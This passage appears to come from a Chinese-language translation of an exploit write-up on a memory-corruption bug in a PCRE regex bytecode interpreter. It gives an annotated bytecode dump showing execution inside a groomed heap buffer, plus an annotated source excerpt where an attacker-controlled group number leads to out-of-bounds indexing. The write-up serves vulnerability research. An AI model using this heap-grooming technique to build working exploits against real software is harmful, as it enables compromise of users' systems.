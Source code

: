 ```
0000 5d001b      93 BRA              [27]
0003 66         102 BRAZERO          
0004 5e000b0001  94 CBRA             [11, 1]
0009 1bc290      27 CHAR             ['\xc2\x90']   <---- Fail, backtrack
0015 510083      81 RECURSE          [131]          
0083 5e00880002  94 CBRA             [136, 2]       <---- Now executing inside our groomed heap buffer
0088 540088      84 KET              [136]
0018 540006      84 KET              [6]
001b 54001b      84 KET              [27]
001e 00           0 END

```

所以，现在我们可以在调整过的堆缓冲区中欢乐地将任意正则表达式字节码插入我们的CBRA和KET中间。

PCRE字节码解释器令人惊讶的健壮，因此也让我找了很久才发现一个有用的内存损坏点。解释器中的主要的内存访问代码都做过有效性检查，如果他没有做的这么完美（但是还是有很多跨界读的机会，但是现在我们需要的是写权限），我们很可能早就用一个跨界写让它能做更多事情。

这就是这段有趣的代码，在处理CBRA的过程中有一个对组数的错误架设，代码如下（来自pcre_exec.cpp，做过美化，移除了一下debug代码）

```
case OP_CBRA:
case OP_SCBRA:
   number = GET2(ecode, 1 + LINK_SIZE); <---- we control number
   offset = number << 1;                <---- we control offset

   if (offset < md->offset_max)         <---- bounds check that offset within offset_vector
   {
       save_offset3       = md->offset_vector[md->offset_end - number]; <---- we control number, so if number is 0, we index at md->offset_end, which is one past the end of the array

       save_capture_last  = md->capture_last;

       if (ES3_Compatible_Behavior)   // clear all matches for groups > than this one
       {                              //  (we only really need to reset all enclosed groups, but
                                      //  covering all groups > this is harmless because
                                      //  we interpret from left to right)

           savedElems = (offset_top > offset ? offset_top - offset : 2);

           if (savedElems > frame->XoffsetStackSaveMax)
           {
               if (frame->XoffsetStackSave != frame->XoffsetStackSaveStg)
               {
                   (pcre_free)(frame->XoffsetStackSave);
               }

               frame->XoffsetStackSave = (int *)(pcre_malloc)(savedElems * sizeof(int));

               if (frame->XoffsetStackSave == NULL)
               {
                   RRETURN(PCRE_ERROR_NOMEMORY);
               }

               frame->XoffsetStackSaveMax = savedElems;
           }

           VMPI_memcpy(offsetStackSave, md->offset_vector + offset, (savedElems * sizeof(int)));

           for (int resetOffset = offset + 2; resetOffset < offset_top; resetOffset++)
           {
               md->offset_vector[resetOffset] = -1;
           }
       }
```